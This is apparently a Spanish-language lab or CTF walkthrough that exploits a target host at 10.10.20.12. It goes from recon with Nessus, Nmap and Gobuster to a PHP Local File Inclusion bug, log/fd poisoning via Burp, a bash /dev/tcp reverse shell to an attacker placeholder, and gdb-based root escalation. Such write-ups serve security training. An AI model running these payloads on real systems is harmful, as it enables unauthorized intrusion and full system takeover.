







# Análisis y Explotación de Vulnerabilidad en PC2


Se llevó a cabo un escaneo con Nessus sobre el host 10.10.20.12, revelando múltiples vulnerabilidades explotables. Como parte del análisis, se utilizó Nmap para obtener un mapa de los servicios activos en el sistema objetivo:



---

Se utilizó Nmap para obtener un mapa de los servicios activos en el sistema objetivo:


---
Durante la ejecución, Gobuster identificó varias rutas:

Las rutas `/blog y /cgi-data` están presentes y el servidor aplica redirección al acceder a ellas. En particular, la existencia de /cgi-data es relevante, ya que habitualmente aloja scripts ejecutables que podrían representar un riesgo si no se encuentran adecuadamente protegidos.


Procederemos ha entrar en la pagina `/cgi-data`.



Accedemos al `.php` y inspeccionamos con CTRL + U



La instrucción:

```php
<?php include $_GET['file']; ?>
```
Toma el valor del parámetro file que se recibe por la URL y lo incluye directamente como código o contenido en el archivo PHP que se ejecuta.

En este caso, es posible leer archivos arbitrarios a través de la URL incluyendo directamente rutas locales, como /etc/passwd, lo que expone información sensible del sistema.


La imagen evidencia que fue existosa ante la vulnerabilidad Local File Inclusion (LFI) en `getImage.php`.

## Burpsuite

El directorio /proc/self es un enlace al proceso en ejecución. Esto le permite verse a si mismo sin tener que conocer su ID de proceso. Dentro de un entorno de la shell, una lista del directorio /proc/self produce el mismo contenido que una lista del directorio del proceso para ese proceso.

`10.10.20.12/cgi-data/getImage.php?file=/proc/self/fd/0`

Capturamos esta peticion con nuestra herramienta Burpsuite

> **Nota**: Recuerde activar el proxy utilizando FoxyProxy para capturar las peticiones.


Ahora vamos ha enviar esta peticiona la Intruder y al Repeater.

- Enviar la captura al Repeater o presionando `Crtl + R`
- Enviar la captura al Intruder o presionando `Crtl + I`

### Ataque con sniper en el Intruder



 Seleccione el parametro 0 de la ruta y presione en el boton Add$



Seleccionamos la ventana Payloads y seleccione Payload type: Numbers.

Presionar el botón naranjo de nombre Star attack



Verificar respuestas diferentes en los log y enviar al repeater con `ctrl + r`


Reemplazar el User-Agent: por código php:

```php
<?php include $_GET['cmd']; ?>
```
Le damos a send



Una vez que verificamos tener ejecución de comandos en la victima lo utilizaremos para conectar un shell a nuestra maquina.

Ahora debemos dejar nuestro equipo a la escucha de esta petición con el siguiente comando:

`nc -nlvp 443`

Ahora ingresar la siguiente ruta modificada para conectar una shell con nuestra maquina.

```shell
http://10.10.20.12/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=bash -c "bash -i >%26 /dev/tcp/ip_atacante/443 0>%261"
```


## Escalar privilegios

Ahora solo tendriamos que ser root:

`getcap -r / 2>/dev/null`

Ese comando busca archivos con capacidades especiales en todo el sistema.

```bash
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
```
